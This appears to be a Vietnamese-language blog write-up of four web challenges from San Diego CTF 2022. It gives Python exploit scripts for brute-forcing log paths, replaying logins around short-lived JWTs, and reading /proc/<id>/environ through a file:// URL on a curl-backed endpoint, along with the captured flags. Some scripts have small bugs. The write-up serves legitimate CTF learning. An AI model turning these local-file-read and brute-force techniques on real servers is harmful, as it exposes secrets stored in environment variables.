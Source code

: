 ```yaml
---
title: San Diego CTF 2022
description: From San Diego CTF
author: to^
date: 2022-05-09 22:07:00 +0700
categories: [WebSec, CTF]
tags: [LFI]     # TAG names should always be lowercase
img_path: /assets/img/sandiegoctf2022
image:
 src: logo.png
 alt: san diego logo
 width: 1000
 height: 400
---
```


Sollution của 4 bài web.

## Apollo 1337

Bài này chỉ để làm quen với các tool nên coi hết video của họ là solve được

> **sdctf{0ne_GiANT_L3AP_4_tH3_NeXT_gENERa7i0n}**
{: .prompt-info  }

## Lots of Logs

Hướng đi của bài này là bruteforce các log file theo dạng `https://logs.sdc.tf/logs/<year>/<month>/<date>/<weekday>.log`

script exploit:

```py
from datetime import datetime
import requests

TARGET = "https://logs.sdc.tf/logs/"

found = False
for year in range (2018, 2019):
    for month in range (1,12):
        for date in range (1,31):
            try: 
                current = datetime(year,month, date).strftime("%A")[0:3]
                r = requests.get(TARGET + f"{year}/{month}/{date}/{current}.log")
                if "sdc" in r.text: 
                    print("[-] Found with url: " + TARGET + f"{year}/{month}/{date}/{current}.log")
                    quit()
            except:
                pass
```

> **sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}**
{: .prompt-info  }

## JaWT that down!

Bài này khó ở chỗ jwt chỉ có giá trị trong một khoảng thời gian ngắn (trường exp) nên cách giải quyết sẽ là re-login sau mỗi request. Mỗi response trả về tương ứng sẽ tướng ứng với từng kí tự tiếp theo của flag.

script exploit:

```py
import requests

s = requests.Session()
TARGET = "https://jawt.sdc.tf/"

cre = {"username": "AzureDiamond", "password": "hunter2"}


url = TARGET + "s"
flag = "s"       

while True:
    s = requests.Session()
    r = s.post(TARGET + 'login', data=cre)
    r = s.get(url)
    if r.status_code != 200:
        break   
    url += '/' + r.text   
 
    flag += r.text
    print(flag)


print(f"[-]Flag: {flag}")
```

> **sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}**
{: .prompt-info  }

## CURL Up and Read

Server cho một ô để nhập url, sau đó hiển thị response nhận được từ url này cho user. Hướng đi của bài là khai thác lỗi `LFI` bằng pyload: `file:///proc/<id>/environ`. Ở đây `curl` command sẽ chạy trong child process do hàm `execFileSync` nên việc ta cần làm là bruteforce id và grep flag.

```py
from base64 import b64encode
import requests

TARGET = "https://curl.sdc.tf"

for i in range (1000):
    print(f"[-] Trying {i}")
    data = '{"url": "file:///proc/ID/environ"}'.replace('ID', i)
    data_base64 = b64encode(data.encode()).decode()
    r = requests.get(TARGET + "/read/" + data_base64)
    if "Internal Server Error" not in r.text:
        if "sdctf" in r.text:
            print("[-] Found: " + TARGET + "/read/" + data_base64)
            break
```

> **sdctf{CURL_up_aNd_L0c@L_F1le_incLuSi0N}**
{: .prompt-info  }
